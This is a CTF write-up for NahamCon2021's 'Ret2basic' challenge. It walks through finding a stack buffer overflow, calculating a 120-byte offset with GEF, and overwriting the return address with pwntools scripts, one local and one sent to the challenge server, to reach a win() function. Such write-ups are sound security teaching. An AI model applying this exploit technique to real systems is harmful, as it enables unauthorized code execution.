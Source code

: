 ```yaml
---
title: "NahamCon2021 CTF - Ret2basic"
date: 2021-03-15T16:39:53+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

binary exploitation - easy

## solution

The file we download is a ELF executable.

```text
$ file ret2basic
ret2basic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3ca85eae693fed659275c0eed9c313e7f0083b85, for GNU/Linux 4.4.0, not stripped
```

Running it hints the vuln.

```text
$ ./ret2basic
Can you overflow this?: AAAA
Nope :(
$
$ ./ret2basic
Can you overflow this?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    9615 segmentation fault  ./ret2basic
$
```

Disassembling the binary, we find that `main()` eventually calls `vuln` where the overflow exists.

{{< figure src="/images/nahamcon/ret2basic_vuln.png" >}}

A function called `win()` also exists, which will read the flag to us if we could reach it.

{{< figure src="/images/nahamcon/ret2basic_win.png" >}}

In `gdb` we can see the overflow smashing the stack, causing the `ret` from `vuln()` to crash.

{{< figure src="/images/nahamcon/ret2basic_rsp.png" >}}

The binary does not have an executable stack, but we can replace the address at the right location so that the `ret` call redirects the program counter to `win()`.

```text
gef➤  checksec
[+] checksec for 'ret2basic'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

We can get the address of `win()` with `p win`.

```text
gef➤  p win
$1 = {<text variable, no debug info>} 0x401215 <win>
```

To find the exact location in the input buffer where the address to `ret` to should be, we can use a cycling buffer. I used the built in `pattern create` tool in GEF to feed to `ret2basic`.

```text
gef➤  pattern offset $rsp
[+] Searching '$rsp'
[+] Found at offset 120 (little-endian search) likely
[+] Found at offset 113 (big-endian search)
gef➤
```

We can confirm the location by running it again with 120 `A`'s and 8 `B`'s. If `rsp` has the `B`'s, we good.

```text
gef➤  x/g $rsp
0x7fffffffe328: 0x4242424242424242
gef➤
```

Simple. To make exploitation easier, I used [pwntools](https://github.com/Gallopsled/pwntools) to write an exploit locally first, then remotely.

The local exploit was:

```python
from pwn import *

elf = context.binary = ELF("ret2basic")
win = p64(elf.symbols.win)

io = process(elf.path)
payload = b"A"*120 + win
io.sendline(payload)
io.interactive()
```

Running that resulted in a successful call to `win()`, but obviously a failed flag read as it wasn't the remote service. The remote version follows which successfully read the flag.

```python
from pwn import *

elf = context.binary = ELF("ret2basic")
win = p64(elf.symbols.win)

payload = b"A"*120 + win

conn = remote("challenge.nahamcon.com", 30159)
conn.sendline(payload)
conn.interactive()
```

{{< figure src="/images/nahamcon/ret2basic_pwn.png" >}}
